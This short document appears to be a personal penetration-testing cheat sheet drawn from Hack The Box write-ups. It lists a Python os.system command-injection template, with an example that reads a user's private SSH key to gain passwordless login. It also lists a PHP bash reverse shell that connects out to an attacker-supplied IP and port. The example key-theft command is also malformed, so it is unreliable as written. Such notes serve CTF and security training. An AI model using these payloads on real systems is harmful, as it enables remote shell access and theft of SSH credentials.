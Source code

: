## Python
- `import os; os.system({BASH COMMAND})` ex. from [Share - Writeup](</HTB Machines/WriteUps/Share - Writeup.md>) `import os; os.system(cat ~/.ssh/id_rsa > /tmp)` this command was used in order to get the id_rsa of the user running the process in order to enter to the user via ssh with no password

## PHP
- `<?php bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1' ?>` - Basic PHP reverse shell